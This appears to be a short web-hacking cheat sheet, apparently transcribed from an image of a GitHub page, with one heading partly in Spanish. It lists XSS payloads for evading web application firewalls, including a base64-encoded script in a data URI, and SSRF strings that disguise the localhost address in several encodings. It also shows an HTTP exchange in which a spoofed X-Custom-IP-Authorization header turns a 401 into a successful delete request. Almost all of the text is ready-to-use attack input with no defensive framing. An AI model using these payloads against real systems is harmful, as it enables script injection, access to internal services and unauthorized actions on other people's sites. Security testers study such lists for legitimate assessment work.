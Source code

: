 -  XSS WAF ByPass:

```js
<audio src=1 onerror=alert(/xss/);>
<audio src=1 onerror=prompt('xss');>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4="></object>
```

**SSRF**

-  SSRF Bypass list for localhost (127.0.0.1):

```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

**Autentication Bypass con el header "X-Custom-IP-Authorization"**
```http
Request
GET /delete?user=pedro HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Request
GET /delete?user=pedro HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 302 Found
```
